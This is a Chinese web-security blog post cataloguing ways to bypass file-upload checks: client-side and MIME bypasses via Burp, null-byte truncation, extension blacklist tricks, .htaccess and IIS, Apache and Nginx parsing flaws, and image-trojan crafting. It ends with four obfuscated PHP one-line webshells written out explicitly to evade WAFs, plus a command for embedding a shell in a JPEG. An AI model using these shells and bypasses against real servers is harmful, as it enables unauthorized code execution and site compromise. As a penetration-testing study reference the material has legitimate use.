 ```yaml
---
published: true
layout: post
tags: web安全
categories: document
---
```


##  客户端检测绕过
   通过前端js脚本对上传进行限制，通过设置禁止浏览器js脚本运行或者通过 burp 之类的代理工具进行绕过提交 .
在burp中将图片后缀名改为asp后，在服务器中就会以asp格式存储  
![](https://ljjbloghub.github.io/img/上传1.png)
##  服务器端检测绕过

### 文件类型(mime)检测 
可以使用burpsuite ，repeater模块修改content-Type：为image/png绕过验证.   

### 目录路径检测 
burp抓包如果能看见上传文件路径，可以使用空字符截断目录路径来绕过   
1.	get方法传送文件路径，利用%00截断   
![](https://ljjbloghub.github.io/img/上传2.png)  
那么你上传一个jpg图片后就会存为以下格式，空格后的内容会被截断  
![](https://ljjbloghub.github.io/img/上传3.png)  
2.若是post方法传送路径，需要在hex中修改二进制将空格20改为00，这样服务器端保留的文件为11.php（.php%00.jpg)  

### 后缀名检测  
基于黑名单的绕过：  
1.php可以执行的后缀名.php2，3，4，5  
2.test.asp%00.jpg   test.php(0x00).jpg的方式进行截断   
3.找黑名单扩展名的漏网之鱼，比如上传.asa\.cer\.cdx\.asax这四种文件格式也会被当着asp脚本来解析）  
4.可能存在大小写绕过漏洞，比如 aSp 和 pHp 之类,若没有去空处理可以加个空格绕过。   
5.利用windows和Linux系统的特性进行特殊文件名绕过，a.asp. a.asp_（test.php:.jpg test.php::$DATA ）这种命名方式在 windows 系统里是不被允许的，所以需要在 burp 之类里进行修改 ，然后绕过验证后，会被 windows 系统自动去掉后面的点和空格。   

白名单绕过：  
1.截断攻击   
2.利用解析漏洞  
3.特别文件名构造  


### 解析攻击（利用web应用服务器的漏洞上传可执行脚本）  

若.Htaccess格式允许上传，上传htaccess文件，能够让jpg以php格式运行  
	内容为 AddType application/x-httpd-php .jpg  
   
iis6.0解析漏洞:  
1、创建目录包含.asp那么此文件夹内的文件都会以asp运行。  
![](https://ljjbloghub.github.io/img/上传4.png)    
2、运行目录解析 将/视为截断（/xx.asp/xx.jpg).     
3、只要文件名中含有 ".asp;" 会优先按 asp 来解析    
 例： xxx.asp;.jpg以这个后缀上传图片马,就会以asp解析  
     
IIS7.0/7.5 解析漏洞:    
  对 php 解析时有一个类似于 Nginx 的解析漏洞，对任意文件名只要在 URL 后面追加上字符串"/任意文件名.php"就会按照 php 的方式去解析   

Apache解析漏洞（双扩展名解析绕过)      
  1、 Apache 是从右到左开始判断解析，后缀名改为 a.php.7z 如果服务器没有设置对7z后缀以什么格式解析的话那么会自动变为php  
  2、 如果在 Apache 的 conf 里有这样一行配置AddHandler php5-script .php。这时只要文件名里包含 .php，即使文件名是 test2.php.jpg 也会以 php 来执行   

Nginx 解析漏洞（php自身的漏洞） 
    1、一个是对任意文件名，在后面添加 /任意文件名.php的解析漏洞，比如原本文件名是 test.jpg，可以添加为 test.jpg/x.php 进行解析攻击。   
    2、还有一种是对低版本的 Nginx 可以在任意文件名后面添加 %00.php 进行解析攻击。   

### 文件内容检测  
制作图片木马可以绕过或者在木马内容基础上再加了一些文件信息  
1.文件幻数检测:  
	![](https://ljjbloghub.github.io/img/上传5.png)
2.文件相关信息检测绕过:    
根据类型在文件头部添加以下文本    
（1） .JPEG;.JPE;.JPG，”JPGGraphic File”  
（2） .gif，”GIF 89A”  
（3） .zip，”Zip Compressed”  
（4） .doc;.xls;.xlt;.ppt;.apr，”MS Compound Document v1 or Lotus Approach APRfile” 

3.文件加载检测绕过：  
 在图片注释处("")添加php代码   
     ![](https://ljjbloghub.github.io/img/上传6.png)
Windows环境下图片马制作方法：  
    copy normal.jpg /b + shell.php /a webshell.jpg

PS:图片马上传后需要配合解析漏洞或者本地文件包含漏洞才能以脚本语言解析。  

### 文件上传一句话php马绕过waf
（适用于php版本7.0以下）
1.  

          <?php $_GET[“test1"]($_GET[“test2"]); ?>  
          
2.  

        $str="a=assert";  
        parse_str($str);//执行这个函数后，生成一个变量$a，值为字符串”assert"
        

3. 

        <?php 
          function fun() 
          {return $_POST['a'];} 
          @preg_replace("/test/e",fun(),"test test test"); 
        ?>   
    
4.

    <?php 
    $b='tressa'; 
    $c=strrev($b); 

    $c($_POST[key]); 
    ?> 

文件上传思维导图：
![](https://ljjbloghub.github.io/img/上传7.png)
